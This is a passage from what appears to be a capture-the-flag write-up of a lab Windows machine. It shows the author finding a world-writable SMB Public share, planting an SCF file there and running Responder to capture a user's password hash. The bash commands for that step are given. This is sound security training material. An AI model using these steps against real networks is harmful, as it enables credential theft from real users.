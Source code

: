 After enumerating all directories, we find out that `Everyone` has `FULL` access to `Users/Public` 🎉 (Figure 11) !

<figure><img src="../../../.gitbook/assets/sizzle_public_acl.png" alt=""><figcaption><p>Figure 11: Everyone has FULL access to the Public folder!</p></figcaption></figure>

Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), we get `amanda`'s hash (Figure 13) !

```bash
# creating an scf file
nano important.scf
# copying the file to the writable directory
sudo cp important.scf SMB/Users/Public/
# firing up responder
sudo responder -I tun0
```

<figure><img src="../../../.gitbook/assets/sizzle_upload_scf.png" alt=""><figcaption><p>Figure 12: Creating an SCF file and uploading it to the writable directory.</p></figcaption></figure>
